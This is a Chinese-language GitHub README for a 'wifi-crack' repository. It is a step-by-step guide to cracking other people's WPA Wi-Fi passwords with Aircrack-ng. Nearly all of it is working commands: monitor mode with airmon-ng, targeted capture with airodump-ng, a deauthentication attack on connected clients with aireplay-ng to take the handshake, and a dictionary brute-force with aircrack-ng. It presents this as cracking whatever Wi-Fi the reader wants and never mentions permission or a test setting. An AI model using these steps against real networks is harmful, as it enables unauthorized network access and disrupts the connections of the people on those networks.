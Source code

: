 ## wifi-crack

### Github地址
> https://github.com/linganmin/wifi-crack

### wifi破解工具下载和安装

#### 破解工具
> Aircrack-ng


#### 下载：
> 在Software目录下放有aircrack-ng-1.2-rc4版本，如需使用最新版请前往该软件官网 http://www.aircrack-ng.org 下载


#### 安装：
> 推荐使用linux-Ubuntu

- 先安装软件依赖
```
sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
```

- 将下载好的aircrack-ng解压
```
tar zxvf aircrack-ng-1.2-rc4.tar.gz
```

- 进入解压目录，编译，安装
```
cd aircrack-ng-1.2-rc4
make
sudo make install
```


### wifi破解过程
- 关闭网络管理器，为了防止干扰
```

service  network-manager stop
airmon-ng check kill
```

- 查看本机电脑的无线网卡名称，下面会用到
```
iwconfig
```

- 激活网卡为监听（monitor）模式
```
airmon-ng start wlan0
```
> wlan0为上面查看到的本机的无线网卡名称，替换为自己查看到的无线网卡名称即可


- 得到监控模式下的设备名是mon0，有的可能是wlan0mon，请记住这个名字

- 探测周围无线网络
```
airodump-ng wlan0mon
```
> wlan0mon为本机监控模式下的设备名，替换成自己监控模式下的设备名称即可,本机探测到WIFI如下图
![](./images/01.jpg)

- 监听指定WIFI，抓取目标的数据包(一直运行，知道攻击成功)
```
airodump-ng --bssid mac地址 -c 频道号 –w cap文件名 wlan0mon
```
> mac地址为上一步探测到的WiFi中你想破解的WIFI的mac地址，频道号为该mac地址所对应的频道号，cap文件名为攻击成功后生成的文件，最后暴力比对字典使用,监听图如下
![](./images/02.jpg)

- 另起一个终端，模拟目标wifi，向可信客户端发起断链攻击，以获取handshake,若一次不成功则多试几次
```
aireplay-ng -0 1 –a 目标wifi的mac地址 -c 客户端的mac地址 wlan0mon
```
> 攻击成功后,airodump-ng会捕获到handshake如下图 ,此时可以ctrl+c终止airodump-ng抓包。
![](./images/03.jpg)

- 通过字典暴力破解捕获到的加密密码
```
aircrack-ng -w 密码字典 捕获的cap文件
```

- 破解成功，恢复网络环境
```
service  network-manager start
```


### 注意点
> 在执行程序或安装程序过程中可能会频繁提示使用管理员权限，所以每条命令执行时最好在前面加上sudo